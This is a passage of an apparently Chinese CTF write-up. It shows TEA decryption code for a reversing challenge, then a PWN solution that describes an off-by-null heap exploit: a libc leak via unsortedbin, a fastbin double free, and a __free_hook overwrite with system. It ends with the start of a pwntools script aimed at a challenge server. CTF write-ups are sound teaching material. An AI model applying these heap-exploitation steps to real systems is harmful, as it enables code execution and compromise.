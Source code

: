 ```CPP
    //     sum = sum ^ delta;
    // }
    for(i = 0; i < 32; i++)
    {
        sum ^= delta;
    }
    for(i = 0; i < 32; i++)
    {
        sum = sum ^ delta;
        v1 -= (key[(sum >> 11) & 3] + sum) ^ (v0 + ((v0 << 5) ^ (v0 >> 6)));
        v0 -= (key[sum & 3] + sum) ^ (v1 + ((v1 << 4) ^ (v1 >> 5)));
    }
    *a = v0;
    *b = v1;
}

int main()
{
    unsigned int enc[30] = {0x32FC31EA, 0xF0566F42, 0xF905B0B2, 0x5F4551BE, 0xFB3EFCBB, 0x6B6ADB30, 0x04839879, 0x2F4378DF};
    int i, j;
    for(i = 0; i < 8; i += 2)
    {
        TEA(&enc[i], &enc[i+1]);
    }
    for(i = 0; i < 8; i++)
    {
        for(j = 0; j < 4; j++)
        {
            printf("%c", *((char*)&enc[i] + j));
        }
    }
    return 0;
}
```

## PWN
### 你满了,那我就漫出来了!
编辑内容时存在off by null漏洞。
通过编辑9号块改写10号块的prev_size和prev_inuse字段。依次将7号块和10号块释放到unsortedbin中。
将7号块申请回来。此时main_arena+96会写到8号块中。利用show函数获取libc基址。
此时申请与8号块同等大小的10号块，由于8号块并未真正释放，noet[8]与note[10]将指向同一地址。
利用fastbin double free和glibc会将fastbin的东西挪到tcachebin中的特性在free_hook处建堆。
覆写为system函数的地址后释放写有"/bin/sh"的堆。
```python
from pwn import *

# context.log_level = 'debug'

# p = process('./vuln')
p = remote('139.196.183.57', 30207)
libc = ELF('./libc-2.27.so')

def create(index, size, content):
    p.sendlineafter(b'Your choice:', b'1')
    p.sendlineafter(b'Index: ', str(index).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendlineafter(b'Content: ', content)

def show(index):
    p.sendlineafter(b'Your choice:', b'2')
    p.sendlineafter(b'Index: ', str(index).encode())
```